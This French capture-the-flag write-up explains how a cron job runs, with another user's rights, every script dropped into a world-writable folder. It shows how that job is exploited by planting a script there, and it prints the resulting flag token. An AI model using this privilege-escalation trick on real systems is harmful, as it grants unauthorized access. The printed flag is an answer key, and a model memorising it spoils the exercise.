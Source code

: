 Quand je cherchais des infos pour ce challenge sur la VM ce message est apparu

```text
You have new mail in /var/mail/level05
```

```bash
> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Cela ressemble à un script qui est utilisé par crontab
il permet d'exécuter cette commande tout les 2 minute

La commande exécute `sh /usr/sbin/openarenaserver` avec les droits de `flag05`

```bash
> cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Ce script exécute les scripts situés dans `/opt/openarenaserver/*` et les supprimes après l'exécution.

```bash
> ls -la /opt/
...
drwxrwxr-x+ 2 root root  40 Jun  2 17:30 openarenaserver
...
```

Le signe `+` signifie qu'il y a des droits étendus sur le dossier `openarenaserver`

```bash
> getfacl /opt/openarenaserver
...
user:level05:rwx
user:flag05:rwx
...
```

On voit que `level05` et `flag05` ont les droits d'écriture sur le dossier `openarenaserver`

Il nous suffit de créer un fichier dans le dossier `/opt/openarenaserver/` contenant :

```bash
getflag > /tmp/level05
```

```bash
> cat /tmp/level05
viuaaale9huek52boumoomioc
```